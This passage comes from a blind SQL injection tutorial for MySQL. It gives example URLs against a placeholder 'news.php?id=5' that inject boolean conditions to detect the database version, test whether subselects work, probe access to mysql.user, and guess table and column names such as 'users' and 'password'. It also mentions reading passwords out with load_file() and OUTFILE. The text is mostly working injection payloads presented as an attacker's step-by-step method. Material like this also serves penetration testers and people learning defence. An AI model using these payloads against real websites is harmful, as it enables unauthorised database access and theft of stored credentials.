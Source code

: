 The above query should return TRUE if the version of MySQL is "4". Replace "4" by "5", and if the query returns TRUE we can understand that the current MySQL version is "5".

**Example:**

```none
http://server/news.php?id=5 and substring(@@version,1,1)=5
```

* * *

###### TEST IF SUBSELECT WORKS

In some cases, the "select" function doesn't work. In such a case, we can use "subselect" as an alternative.

**Example:**

```none
http://server/news.php?id=5 and (select 1)=1
```

If the page is loading properly then the "subselects" function is working. The next step shall see if we can get access to "mysql.user".

**Example:**

```none
http://server/news.php?id=5 and (select 1 from mysql.user limit 0,1)=1
```

If the page is loading properly then it’s mean we do have access to "mysql.user". According to this last query we can if we want using this access to extract for example some password using **load_file()** function and **OUTFILE**.

* * *

###### CHECK TABLE AND COLUMN NAMES

This is part is where guessing and googling will be your best friend.

**Example:**

```none
http://server/news.php?id=5 and (select 1 from users limit 0,1)=1
```

In the above example, using "limit 0,1" our query will return "1 row of data". Then if the page loads normally without content missing, that simply means the "users" table has been found. If you get FALSE, such as some missing content on the page just change the table name until you guess the correct one.

Now let's say that we have found that the table name is "users", the next step will be to find out the column name using the same methodology than before. We will start with a common name such as "password".

**Example:**

```none
http://server/news.php?id=5 and (select substring(concat(1,password),1,1) from users limit 0,1)=1
```
